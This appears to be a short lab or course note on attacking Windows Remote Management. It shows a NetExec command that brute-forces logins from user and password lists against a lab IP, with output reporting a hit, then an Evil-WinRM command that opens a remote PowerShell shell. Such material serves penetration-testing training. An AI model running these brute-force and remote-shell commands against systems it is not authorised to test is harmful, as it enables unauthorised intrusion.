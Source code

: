 # WinRM

## NetExec

A tool that can be used for password attacks against WinRM is **NetExec**, which can also be used for other protocols such as **SMB**, **LDAP**, **MSSQL**, and others.

An example of attacking a WinRM endpoint using NetExec:

```shell
clue@machine[/]$ netexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

## Evil-WinRM

```shell
clue@machine[/]$ evil-winrm -i 10.129.42.197 -u user -p password

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\user\Documents>
```

If the login was successful, a terminal session is initialised using the **PowerShell Remoting Protoco**l (**MS-PSRP**), which simplifies the operation and execution of commands.
